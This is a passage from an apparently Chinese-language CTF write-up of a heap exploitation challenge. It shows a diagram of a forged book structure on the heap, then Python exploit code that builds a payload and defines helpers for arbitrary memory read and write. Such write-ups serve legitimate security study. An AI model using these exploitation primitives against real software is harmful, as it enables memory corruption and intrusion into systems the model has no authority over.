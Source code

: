 经过我们控制 `LIBRARY[0]` 的地址的之后可以形成如下的形式：

```
                                Heap Segment 
                                                             
                             +--------------------+          
                        0x18 | book1 name buffer  |          
                             ----------------------          
                       0x100 | book1 desc buffer  |          
   +-----------+             |                    |          
   | library[0]|------------>| control seqnumber  | 1        
   -------------             | control name ptr   |          
   | library[1]|--+          | control desc ptr   |---------+
   -------------  |          | control desc size  | 0x100   |
   |  ......   |  |          ----------------------         |
   +-----------+  |          | book1 seqnumber    | 1       |
                  |     0x20 | book1 name ptr     |         |
                  |          | book1 desc ptr     |         |
                  |          | book1 desc size    | 0x100   |
                  |          +--------------------+         |
                  |          +--------------------+         |
                  |     0x20 | book2 name buffer  |         |
                  |          ----------------------         |
                  |     0x20 | book2 desc buffer  |         |
                  |          ----------------------         |
                  +--------> | book2 seqnumber    | 2       |
                        0x20 | book2 name ptr     |         |
                             | book2 desc ptr     |<--------+
                             | book2 desc size    | 0x20     
                             +--------------------+          
```

于是我们可以通过 `LIBRARY[0]` 控制 `LIBRARY[1]` 的指针，从而修改/读取任意地址。

泄露的脚本如下：

```python
        # todo: get arbitrary address write&read
        self.create(0x20, "D" * 0x20, 0x20, "E" * 0x20)  # 2
        offset = library0 & 0xff
        assert offset >= 0x20
        payload = "C"*(0x100+0x10 - offset) + p64(0x1) \
                  + p64(library0 + 0x20 + 0x10) \
                  + p64(library0 + 0x20 + 0x30 + 0x30 + 0x10 + 0x10) \
                  + p64(0x100)
        self.edit(1, payload)
        self.set_author_name("A" * 32)
        print "get arbitrary address write&read"
```

可以通过下面两个函数进行任意读写：

```python
    def write_to(self, addr, content):
        self.edit(1, p64(addr) + p64(len(content) + 1))
        self.edit(2, content)

    def read_from(self, addr):
        self.edit(1, p64(addr))
        self.detail()
        desc = [ld["Description"] for ld in self.library_detail if ld["ID"] == "2"]
        assert len(desc) == 1
        return u64((desc[0] + "\x00\x00")[:8])
```

